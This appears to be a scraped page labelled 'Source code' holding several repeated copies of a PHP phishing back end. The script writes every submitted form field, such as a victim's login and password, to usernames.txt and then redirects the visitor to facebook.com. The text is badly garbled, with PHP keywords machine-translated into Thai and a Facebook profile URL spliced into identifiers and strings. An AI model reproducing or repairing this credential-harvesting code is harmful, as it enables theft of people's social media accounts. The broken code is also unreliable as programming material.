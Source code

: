 #https://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWKwL <?php
ส่วนหัว ('ตำแหน่ง:https://www.facebook.com/profile.php?id=100045528502132&mibextid=https://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWKwL''.);
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแhttps://www.facebook.com/profile.php?id=100045528502132ปร);
      fwrite($hhttps://www.facebook.com/profile.php?id=100045528502132andle, "=");
         fhttps://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWwrite($<?php
         ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
         $handle = fopen("usernames.txt", "a");
         foreach($_POST เป็น $variable => $value) {
            fwrite($จัดการ, $ตัวแปร);
               fwrite($handle, "=");
                  fwrite($จัดการ, $value);
                     fwrite($handle, "\r\n");
                     }
                     fwrite($handle, "\r\n");
                     fclose($จัดการ);
                     ออก;
                     ?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($จัดการ);
ออก;
?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
      fwrite($handle, "=");
         fwrite($จัดการ, $value);
            fwrite($handle, "\r\n");
            }
            fwrite($handle, "\r\n");
            fclose($จัดการ);
            ออก;
            ?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($จัดการ);
ออก;
?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernhttps://www.facebook.com/profile.php?id=100045528502132ames.txt", "https://www.facebook.com/profile.php?id=100045528502132a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($จัดการ);
ออก;
?>จัดการจัดการจัดการ, $value);
            fwrite($handle, "\r\n");
            }
            fwrite($handle, "\r\n");
            fclose($จัดการ);
            ออก;
            ?><?php
ส่วนหัว ('ตำแหน่ง:https://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWKwL);
$handle = fopen("usernames.txt", "ahttps://www.facebook.com/profile.php?id=100045528502132");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}https://www.facebook.com/profile.php?id=100045528502132
fwrite($handle, "\r\nhttps://www.facebook.com/profile.php?id=100045528502132");
fclose($https://www.facebook.com/profile.php?id=100045528502132จัดการ);
ออก;รหัส

?>